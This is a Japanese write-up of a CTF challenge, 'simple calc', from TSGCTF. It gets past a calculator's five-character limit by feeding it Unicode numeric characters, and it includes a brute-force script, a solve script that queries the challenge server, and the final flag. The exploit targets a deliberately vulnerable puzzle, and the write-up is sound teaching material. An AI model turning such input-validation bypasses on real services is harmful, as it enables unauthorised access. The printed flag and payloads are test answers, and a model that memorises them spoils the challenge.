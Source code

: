 # simple calc:misc:156pts
Made my first calculator—with a special bonus! 🌟  

`nc 34.146.186.1 53117`  

[simple_calc.tar.gz](simple_calc.tar.gz)  

# Solution
接続先が渡される。  
接続するとシンプルな計算機のようだ。  
```bash
$ nc 34.146.186.1 53117
1+6
7 th character is *

$ nc 34.146.186.1 53117
7*7
49 th character is *

```
計算結果の後にわけのわからない出力があるので、配布されたserver.pyを見る。  
```py
from unicodedata import numeric

text = '*' * 12345678 + "FAKECTF{THIS_IS_FAKE}" + '*' * 12345678

# I made a simple calculator :)
def calc(s):
    if (loc := s.find('+')) != -1:
        return calc(s[:loc]) + calc(s[loc+1:])
    if (loc := s.find('*')) != -1:
        return calc(s[:loc]) * calc(s[loc+1:])
    x = 0
    for c in s: x = 10 * x + numeric(c)
    return x

def check(s):
    if not all(c.isnumeric() or c in '+*' for c in s):
        return False
    if len(s) >= 6: # I don't like long expressions!
        return False
    return True

s = input()
if check(s):
    val = int(calc(s))
    print(f'{val} th character is {text[val]}')
else:
    print(':(')
```
計算は`+`と`*`が実装されており、`calc`では再帰的に値を10倍し`numeric(c)`を足すという雑な実装である。  
条件として5桁までの入力が許可されている。  
もちろん`c.isnumeric()`のように数値であるかもチェックされている。  
わけのわからない出力は、`text = '*' * 12345678 + "FAKECTF{THIS_IS_FAKE}" + '*' * 12345678`から計算結果後の文字を出力しているようだ。  
つまり、5桁までの計算式で12345678~の結果を作れということらしい。  
普通に考えると不可能だが、`numeric`は以下のように各種Unicode文字を数値と解釈することが知られている。  
```bash
$ python
~~~
>>> from unicodedata import numeric
>>> numeric("１")
1.0
>>> numeric("⑳")
20.0
>>> numeric("兆")
1000000000000.0
```
1文字で複数桁を作ることができるため、これら挙動を使えとのことらしい。  
面倒なので総当たりする方針をとる。  
5桁の文字列の総当たりは難しいが、4桁なら十分可能そうだ。  
4桁でどのような数値を作ればいいかと考えると、`1234567`を作成すればよい(5桁目を`8`とすれば`12345678`、`⑳`とすれば`12345690`(`1234567 * 10 + 20`)となる)。  
以下のbf.pyで`1234567`付近になるものを総当たりする。  
```py
import itertools
from unicodedata import numeric


# server.py
def calc(s):
    if (loc := s.find("+")) != -1:
        return calc(s[:loc]) + calc(s[loc + 1 :])
    if (loc := s.find("*")) != -1:
        return calc(s[:loc]) * calc(s[loc + 1 :])
    x = 0
    for c in s:
        x = 10 * x + numeric(c)
    return x


chars = {}
for i in range(0xFFFFF):
    try:
        c = chr(i)
        if (c).isnumeric():
            if numeric(c) not in chars:
                chars[int(numeric(c))] = c
    except:
        pass

chars = list(chars.values())
chars.append("+")
chars.append("*")

permutations = ["".join(p) for p in itertools.permutations(chars, 4)]
for p in permutations:
    if abs(1234567 - calc(p)) < 5:
        print(f"FOUND: raw: {p}")
        print(f"<num: {calc(p)}, diff: {1234567 - calc(p)}>")
```
実行する。  
```bash
$ python bf.py
FOUND: raw: 𞴽㉔𐄲𒐳
<num: 1234566.6666666667, diff: 0.3333333332557231>
FOUND: raw: ༬𐄩༰𒐳
<num: 1234565.0, diff: 2.0>
FOUND: raw: 𐄠㉑㊼𒐳
<num: 1234570.0, diff: -3.0>
FOUND: raw: 𐄠㉒㊲𒐳
<num: 1234570.0, diff: -3.0>
FOUND: raw: 𐄠㉓㉗𒐳
<num: 1234570.0, diff: -3.0>
FOUND: raw: 𐄠㉔ᛮ𒐳
<num: 1234570.0, diff: -3.0>
FOUND: raw: 𐄠㉕༰𒐳
<num: 1234565.0, diff: 2.0>
```
`1234567`は無いが、`1234565`や`1234566.6`は作成できる。  
`1234565`には`㉘`、`1234566.6`には`⑫`を続けることで`12345678`となった。  
```bash
$ nc 34.146.186.1 53117
༬𐄩༰𒐳㉘
12345678 th character is T

$ nc 34.146.186.1 53117
𞴽㉔𐄲𒐳⑫
12345678 th character is T

```
丸数字は㊿まであるため、それをすべて利用すればよい。  
以下のsolve.pyで行う。  
```py
from ptrlib import *

logger.level = 0

num = [
    "⑫",
    "⑬",
    "⑭",
    "⑮",
    "⑯",
    "⑰",
    "⑱",
    "⑲",
    "⑳",
    "㉑",
    "㉒",
    "㉓",
    "㉔",
    "㉕",
    "㉖",
    "㉗",
    "㉘",
    "㉙",
    "㉚",
    "㉛",
    "㉜",
    "㉝",
    "㉞",
    "㉟",
    "㊱",
    "㊲",
    "㊳",
    "㊴",
    "㊵",
    "㊶",
    "㊷",
    "㊸",
    "㊹",
    "㊺",
    "㊻",
    "㊼",
    "㊽",
    "㊾",
    "㊿",
]

for i in num:
    sock = Socket("nc 34.146.186.1 53117")
    sock.sendline(f"𞴽㉔𐄲𒐳{i}")
    print(sock.recvline().decode()[-1], end="")
    sock.close()
```
実行する。  
```bash
$ python solve.py
TSGCTF{Num63r5_b0w_+o_y0ur_bri11i4nC3!}
```
flagが得られた。  

## TSGCTF{Num63r5_b0w_+o_y0ur_bri11i4nC3!}